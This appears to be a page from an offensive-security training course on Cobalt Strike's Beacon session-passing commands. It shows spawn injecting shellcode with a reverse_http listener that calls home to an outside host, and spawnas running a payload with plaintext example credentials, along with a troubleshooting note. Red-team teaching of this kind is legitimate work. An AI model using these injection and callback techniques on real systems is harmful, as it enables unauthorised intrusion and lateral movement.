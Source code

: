 # Session Passing

### spawn <a href="#el_1743085520194_491" id="el_1743085520194_491"></a>

The `spawn` command starts a new process and injects shellcode into it for the specified listener.  The new Beacon will run as the same user who spawned it.

```batch
beacon> help spawn
Use: spawn [x86|x64] [listener]
     spawn [listener]
Spawn an x86 or x64 process and inject shellcode for the listener.
beacon> spawn x64 http
[*] Tasked beacon to spawn (x64) windows/beacon_http/reverse_http (www.bleepincomputer.com:80)
[+] host called home, sent: 350863 bytes
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/04726cd3879e34328049a74ba6ae7288.png" alt="" width="100%"><figcaption></figcaption></figure>

### spawnas <a href="#el_1743085527650_504" id="el_1743085527650_504"></a>

The `spawnas` command is similar, but it accepts plaintext credentials for another user.  The new Beacon will run as the alternate user.

```batch
beacon> help spawnas
Use: spawnas [DOMAIN\user] [password] [listener]
Attempt to spawn a payload as another user. If you don't specify DOMAIN,Beacon will try to authenticate as a local user.
This command will usually fail if you're in a SYSTEM context. Use make_token to create a token to pass the desired credentials instead.
```

The help texts are always helpful because they call out any caveats for a command.  The help for spawnas indicates that it probably won't work when run from a Beacon running as SYSTEM.  These restrictions are usually due to the way the underlying Windows APIs behave.

One thing to watch out for when spawning new processes in general is Beacon's current working directory.  For example, this attempt to spawn a new Beacon with alternate credentials fails with the error code 267.

```batch
beacon> spawnas CONTOSO\rsteel Passw0rd! tcp-local
[*] Tasked beacon to spawn windows/beacon_bind_tcp (127.0.0.1:1337) as CONTOSO\rsteel
[-] could not run C:\Windows\system32\rundll32.exe as CONTOSO\rsteel: 267

beacon> windows_error_code 267
ERROR_DIRECTORY, STATUS_NOTIFY_CLEANUP
```

This is caused because Beacon's current working directory is set to a directory owned by pchild's, which rsteel does not have access to.
